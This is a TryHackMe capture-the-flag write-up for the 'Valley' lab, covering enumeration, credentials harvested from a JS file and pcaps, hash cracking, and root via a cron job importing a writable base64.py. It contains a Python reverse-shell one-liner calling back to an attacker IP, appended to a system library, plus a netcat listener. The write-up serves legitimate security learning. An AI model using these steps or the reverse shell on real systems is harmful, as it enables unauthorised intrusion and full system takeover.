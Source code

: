 <h2>Target: 10.10.55.98  Valley</h2>

<b>Initial Access:</b><br>
Step 1: nmap -Pn 10.10.55.98 --min-rate=5000 -p 22,80,37370 |grep open|awk -F '/' '{print $1}'|sed -z 's/\n/,/g' <br>
Nmap returns open ports 22,80,37370

Step 2: Enumerate these open ports further using nmap: nmap -Pn 10.10.55.98 --min-rate=5000 -p 22,80,37370 -sC -sV -oN nmap-thevalley 

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/5cbacf8e-f6a0-4313-adc3-ed2ec7f85aef)

Step 3: Run directory brute force on port 80: dirsearch -r -u http://10.10.55.98 -e txt,html -f -o dsearch-thevalley

Dirsearch found a directory called /static/00

Step 4: Navigating to http://10.10.55.98/static/00 shows:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/72665a94-4851-43bc-aae1-7510b8ae4d24)
  
This shows a directory of /dev1243224123123.  

Step 5: Visiting the page http://10.10.55.98/dev1243224123123 shows:
![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/f969f750-7d23-4bd5-bd1a-5bde7eb8e458)
  
The page shows a login page but weak credentials don’t work and we don’t have credentials.  

Step 6: Checking the source code of this page shows:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/93247721-f59d-4104-ab08-94f79f86409d)
  
The source code mentions an interesting file called dev.js. 

Step 7: Visiting http://10.10.55.98/dev1243224123123/dev.js shows:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/a5f0609d-f19d-4cf9-95ad-cd42a102e8a3)
 
The page shows credentials “siemDev:california” and a directory of “/devNotes37370.txt”. 

Step 8: Go back to the login page and use the found credentials to login.  After logging in the page shows:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/3ba2f570-e767-41a4-9b6f-6e70364feab2)

The page speaks about ftp and indicates the user reuses credentials.  Log into ftp using the found credentials: ftp siemDev@10.10.55.98 -P 37370 → enter the password when prompted
 
Step 9: After logging into ftp we find 3 pcap files:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/9f852edd-77ca-44bb-a472-652ba07fc914)
 
Download the 3 files: mget *

Step 10: Use wireshark to look through these pcap files.  Open the file ‘siemHttp2.pcapng’ and use a display filter of tcp.stream eq 31:


![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/a964c719-ee73-4bc7-bda4-12608687dec6)
 
Right click on a HTTP packet and select “Follow http stream”.  The HTTP stream page shows:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/d375c276-eb90-4a50-a20f-a1c7ebade4bd)

This packet stream has credentials of username ‘valleyDev’ and password ‘ph0t0s1234’.

Step 11: Log into ssh using these credentials: ssh valleyDev@10.10.55.98 → enter password when prompted

We have shell as user valleyDev.  We can get the flag in /home/valleyDev/user.txt.
_________________________________________
<b>Lateral Movement:</b><br>
Step 1: Checking the /home directory shows:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/cf822d63-e35e-430a-8a32-0dfec92e3917)

We see there’s 3 users on the target shell: siemDev, valley and valleyDev.  <br>
Looking at /etc/passwd confirms these 3 users exist.  

We also find that there’s an executable file in the /home directory called “valleyAuthenticator”.  

Step 2: Run the file valleyAuthenticator.  The file when run shows: 

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/4b15bfd3-bad6-4fe6-b2de-c4f4cdb89614)
 
Seems like the file performs some kind of check to see if the credentials given are valid.  Download the file for further examination of this file.  

Step 3: To examine the file run the command: strings valleyAuthenticator

In the output to the strings command, skip to the part that shows the login part and see if we can find credentials.  Finding the ‘Welcome to Valley Inc.…userna….passw’ indicates the login part:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/06ff3554-d41f-442e-805f-7acf912ceef6)
 
We don’t see any plain text credentials but it does seem like “e6722920bab2326f8217e4” is a md5 hash.  

Step 4: Enter the hash into https://crackstation.net: 

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/c60e68ba-39e8-418a-b5d8-5019604a4260)

Crackstation.net cracked the hash to “liberty123”.  

Step 5: Try to login to ssh using this password for username valley:  ssh valley@10.10.55.98 → enter the password when prompted

We have shell as user valley. 
_________________________________________________________
<b>Privilege Escalation:</b><br>
Step 1:  Check if there are any scheduled tasks/background processes that run as root: cat /etc/crontab:

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/c1052fa2-5196-4fd8-b25b-3d04d3cfba1f)
   
This shows that every minute there is a task that runs as root that executes python3 /photos/script/photosEncrypt.py

Step 2:  We don’t have permissions to edit the file /photos/script/photosEncrypt.py: ls -al /photos/script/photosEncrypt.py

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/6cce918f-d1c4-4343-abf8-d728c7a4782c)
 
Check what groups our user ‘valley’ is part of: id

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/741dab31-dd90-4f39-9497-14fa27d83b1b)
 
User valley is part of the group ‘valleyAdmin’.

Step 3: Check what files are associated to the group ‘valleyAdmin’: find / -group valleyAdmin -ls 2>/dev/null

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/664cfb52-1544-42e0-a2f2-488d63df6419)
 
This shows that the group ‘valleyAdmin’ has write permissions to /usr/lib/python3.8/base64.py

Step 4: Read the contents of the file /photos/script/photosEncrypt.py:  

![image](https://github.com/AdamRose1/TryHackMe-Writeups/assets/93153300/7228cf31-dce6-4ac8-ad1a-fb1502e0f263)
 
This shows that the file is importing base64.  We saw earlier that we have write permissions to the base64 file that is being imported (/usr/lib/python3.8/base64.py).

Step 5: Add a python reverse shell to the base64.py file: echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.64.178",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> /usr/lib/python3.8/base64.py

Step 6: Open a netcat listener to catch the reverse shell: nc -lvnp 443

Wait a minute and we get a shell as root on our netcat listener.  We can get the flag in /root/root.txt.






